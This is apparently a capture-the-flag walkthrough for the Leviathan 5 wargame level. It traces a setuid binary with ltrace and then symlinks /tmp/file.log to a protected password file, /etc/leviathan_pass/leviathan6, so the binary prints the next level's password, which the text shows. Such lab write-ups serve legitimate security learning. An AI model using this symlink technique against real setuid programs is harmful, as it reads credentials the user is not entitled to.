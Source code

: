 # Leviathan 5 - Walkthrough

leviathan5@leviathan:~$ ls
leviathan5


leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log


leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                           = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                                                     = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                           = 0x804b008
fgetc(0x804b008)                                                                                      = '\377'
feof(0x804b008)                                                                                       = 1
fclose(0x804b008)                                                                                     = 0
getuid()                                                                                              = 12005
setuid(12005)                                                                                         = 0
unlink("/tmp/file.log")                                                                               = 0
+++ exited (status 0) +++

feof checks if it's the end of the file. 
Let's write something to the file:

leviathan5@leviathan:~$ echo hello > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
hello

Let's see the flow:

leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                           = 0x804b008
fgetc(0x804b008)                                                                                      = 'h'
feof(0x804b008)                                                                                       = 0
putchar(104, 0x8048720, 0xf7e40890, 0x80486eb)                                                        = 104
fgetc(0x804b008)                                                                                      = 'e'
feof(0x804b008)                                                                                       = 0
putchar(101, 0x8048720, 0xf7e40890, 0x80486eb)                                                        = 101
fgetc(0x804b008)                                                                                      = 'l'
feof(0x804b008)                                                                                       = 0
putchar(108, 0x8048720, 0xf7e40890, 0x80486eb)                                                        = 108
fgetc(0x804b008)                                                                                      = 'l'
feof(0x804b008)                                                                                       = 0
putchar(108, 0x8048720, 0xf7e40890, 0x80486eb)                                                        = 108
fgetc(0x804b008)                                                                                      = 'o'
feof(0x804b008)                                                                                       = 0
putchar(111, 0x8048720, 0xf7e40890, 0x80486eb)                                                        = 111
fgetc(0x804b008)                                                                                      = '\n'
feof(0x804b008)                                                                                       = 0
putchar(10, 0x8048720, 0xf7e40890, 0x80486ebhello
)                                                         = 10
fgetc(0x804b008)                                                                                      = '\377'
feof(0x804b008)                                                                                       = 1
fclose(0x804b008)                                                                                     = 0
getuid()                                                                                              = 12005
setuid(12005)                                                                                         = 0
unlink("/tmp/file.log")                                                                               = 0
+++ exited (status 0) +++


Ok so let's do it for `/etc/leviathan_pass/leviathan6`.
make `/tmp/file.log` a symlink for the above.
Haha!: 

leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li

